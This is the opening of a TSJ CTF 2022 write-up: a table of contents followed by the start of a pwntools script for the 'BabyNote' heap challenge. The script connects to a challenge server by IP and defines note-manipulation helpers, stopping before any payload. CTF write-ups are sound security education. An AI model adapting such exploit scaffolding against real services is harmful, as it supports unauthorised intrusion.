 # TSJ CTF 2022
 - [TSJ CTF 2022](#tsj-ctf-2022)
   - [pwn](#pwn)
     - [BabyNote](#babynote)
   - [crypto](#crypto)
     - [Futago](#futago)
     - [BabyRSA](#babyrsa)
     - [Top Secret](#top-secret)
     - [Cipher Switching Service](#cipher-switching-service)
     - [Rng  ](#rng)
   - [pentest](#pentest)
     - [Nentau Police Office - 1](#nentau-police-office---1)
     - [Nentau Police Office - 2](#nentau-police-office---2)
   - [web](#web)
     - [Nimja at Nantou](#nimja-at-nantou)
     - [Avatar](#avatar)
   - [rev](#rev)
     - [javascript_vm](#javascript_vm)

## pwn

### BabyNote

```python=
#!/usr/bin/python2

from pwn import *


r = remote('34.81.158.137', 10102)

def create_note(n, l, c):
  r.recvuntil('>')
  r.sendline("1")
  r.recvuntil('Your Name:')
  r.send(n)
  r.recvuntil('Note length:')
  r.sendline(str(l))
  r.recvuntil('Note:')
  r.send(c)

def edit_note(i, n, c):
  r.recvuntil('>')
  r.sendline("3")
  r.recvuntil('ID:')
  r.sendline(str(i))
  print r.recvuntil('Name:')
  r.send(n)
  print r.recvuntil(':')
  r.send(c)

def delete_note(i):
  r.recvuntil('>')
  r.sendline("4")
  r.recvuntil('ID:')
  r.sendline(str(i))

def list_note():
  r.recvuntil('>')
  r.sendline("2")

create_note("n1", 1152, 'a')
```